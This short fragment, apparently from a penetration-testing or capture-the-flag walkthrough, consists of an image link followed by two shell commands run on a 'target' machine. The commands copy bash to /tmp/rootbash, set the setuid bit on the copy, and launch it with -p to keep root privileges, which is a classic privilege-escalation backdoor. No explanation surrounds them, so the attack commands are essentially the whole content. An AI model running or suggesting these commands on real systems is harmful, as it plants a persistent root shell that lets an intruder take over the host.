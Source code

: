 ```bash - target
cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash
```

```bash - target
/tmp/rootbash -p
```


